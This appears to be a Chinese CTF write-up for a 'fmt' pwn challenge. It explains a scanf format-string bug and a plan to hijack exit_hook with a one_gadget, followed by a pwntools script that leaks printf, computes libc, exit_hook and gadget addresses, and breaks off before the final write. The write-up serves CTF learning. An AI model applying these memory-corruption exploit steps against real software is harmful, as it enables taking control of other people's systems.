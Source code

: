 ## fmt

> scanf和fmt类似 有格式化 我们可以通过%n$p来实现指定第几个参数地址写入内容 然后前六个参数都是寄存器 后面的参数就是栈地址了 按照栈顶依次选择

- 这题我们拥有两次写入机会 我们可以第一次写入目标地址 然后第二次通过scanf来向目标地址写入数据 
- 我们选择打exit_hook 写入one_gadget 就可以成功劫持了

### exit hook地址写入栈:

![image-20240422212450209](https://awaqwqa.github.io/img/xyctf/image-20240422212450209.png)

### 选择

```c
%7$ld
```

### 脚本

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['byobu', 'sp', '-h']


# file_name = "./vuln"
url = "127.0.0.1"
port = 53235


# elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b main")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))

res = ru(b"\n")
printf_addr = int(res[-15:-1],16)
print("printf_addr:",hex(printf_addr))

libc_base = printf_addr - 0x61CC0
print("libc_base:",hex(libc_base))
exit_hook_addr = libc_base +2240352+8
exit_hook_args_addr = libc_base +2238824
system_addr = libc_base +0x522C0
one_gadget = libc_base +0xe3b2e
print("exit_hook:",hex(exit_hook_addr))
print("exit_hook args",hex(exit_hook_args_addr))
print("system_addr:",hex(system_addr))
print("one_gadget:",hex(one_gadget))
# cannary-8位置
```